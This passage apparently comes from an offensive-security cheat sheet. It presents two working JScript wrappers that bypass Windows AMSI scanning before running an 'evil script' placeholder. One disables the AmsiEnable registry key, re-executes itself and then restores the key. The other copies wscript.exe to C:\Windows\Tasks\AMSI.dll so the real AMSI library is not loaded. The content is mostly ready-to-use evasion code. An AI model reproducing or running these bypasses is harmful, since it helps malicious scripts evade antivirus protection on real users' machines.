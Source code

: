 Set the `HKCU\Software\Microsoft\Windows Script\Settings\AmsiEnable` registry key to `0` and run the evil script:

{% code title="regkey.js" %}
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try {
	var AmsiEnable = sh.RegRead(key);
	if (AmsiEnable != 0) {
		throw new Error(1, '');
	}
} catch(e) {
	sh.RegWrite(key, 0, "REG_DWORD");
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}" + WScript.ScriptFullName, 0, 1);
	sh.RegWrite(key, 1, "REG_DWORD");
	WScript.Quit(1);
}

<EVIL_SCRIPT_CONTENTS>
...
```
{% endcode %}



### Rename AMSI.dll

Copy `C:\Windows\System32\wscript.exe` binary to a different location and rename in to `AMSI.dll` in order to prevent loading the real `AMSI.dll`:

{% code title="rename.js" %}
```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try {
	if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll") == 0) {
		throw new Error(1, '');
	}
} catch(e) {
	filesys.CopyFile("C:\\Windows\\System32\\wscript.exe", "C:\\Windows\\Tasks\\AMSI.dll");
	sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}"+WScript.ScriptFullName);
	WScript.Quit(1);
}
<EVIL_SCRIPT_CONTENTS>
...
```
{% endcode %}

